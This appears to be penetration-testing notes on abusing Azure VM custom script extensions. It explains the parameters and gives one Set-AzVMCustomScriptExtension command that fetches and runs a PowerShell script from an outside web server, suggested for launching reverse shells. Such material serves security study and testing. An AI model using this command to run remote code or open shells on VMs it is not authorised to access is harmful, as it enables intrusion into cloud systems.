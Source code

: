 # Executing VM extensions

### Azure VM extensions are tools used by administrators to configure VMs after they have been deployed. As a way of customizing these extensions for different uses, Microsoft allows for custom script extensions to be created, based on a schema that they have defined.

### This schema includes file URIs or URLs that point to script files that allow us to specify a PowerShell file that we want to execute. As attackers, we will need a web server to host the file URIs.

### The command for running the custom script extension consists of the following parameters:

- ResourceGroupName: The resource group for the VM.

- VMName: The name of the VM.

- Location: The region the VM is in.

- FileUri: The HTTP/HTTPS URL for the script file.

- Run: The file to run; this should be the same as the ps1 filename.

- Name: The name that the custom script extension will have:

## Command example:

 - Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension (Use this to run your reverse shells)
